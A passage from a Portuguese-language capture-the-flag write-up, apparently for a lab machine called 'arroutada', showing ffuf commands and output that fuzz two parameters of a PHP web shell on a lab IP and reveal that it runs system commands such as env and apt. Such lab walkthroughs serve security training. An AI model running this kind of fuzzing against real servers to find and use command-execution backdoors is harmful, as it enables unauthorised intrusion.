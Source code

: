 Existe mais um parâmetro b  

![alt text](/assets/img/arroutada/5.png)

### ffuf valor de b
```shell
╭─      ~/hmv/arroutada      
╰─ ffuf -c -w /usr/share/wordlists/seclists/Discovery/Web-Content/big.txt -t 100 -u 'http://192.168.15.9/thejabasshell.php?a=key&b=FUZZ' -fs 33 


 :: Method           : GET
 :: URL              : http://192.168.15.9/thejabasshell.php?a=key&b=FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/seclists/Discovery/Web-Content/big.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 100
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 33
________________________________________________

pass                    [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 62ms]
```
{: .nolineno }

### ffuf valor de a
Por alguns resultados notei que são comandos.
```shell
╰─ ffuf -c -w /usr/share/wordlists/seclists/Discovery/Web-Content/big.txt -t 100 -u 'http://192.168.15.9/thejabasshell.php?a=FUZZ&b=pass' -fs 0

arch                    [Status: 200, Size: 7, Words: 1, Lines: 2, Duration: 79ms]
apt                     [Status: 200, Size: 1290, Words: 215, Lines: 30, Duration: 467ms]
date                    [Status: 200, Size: 29, Words: 6, Lines: 2, Duration: 433ms]
df                      [Status: 200, Size: 330, Words: 145, Lines: 7, Duration: 310ms]
dir                     [Status: 200, Size: 43, Words: 7, Lines: 2, Duration: 373ms]
echo                    [Status: 200, Size: 1, Words: 1, Lines: 2, Duration: 96ms]
du                      [Status: 200, Size: 371, Words: 1, Lines: 25, Duration: 857ms]
cpp                     [Status: 200, Size: 151, Words: 19, Lines: 8, Duration: 2607ms]
env                     [Status: 200, Size: 355, Words: 1, Lines: 12, Duration: 262ms]
export                  [Status: 200, Size: 454, Words: 12, Lines: 12, Duration: 95ms]
```
{: .nolineno }
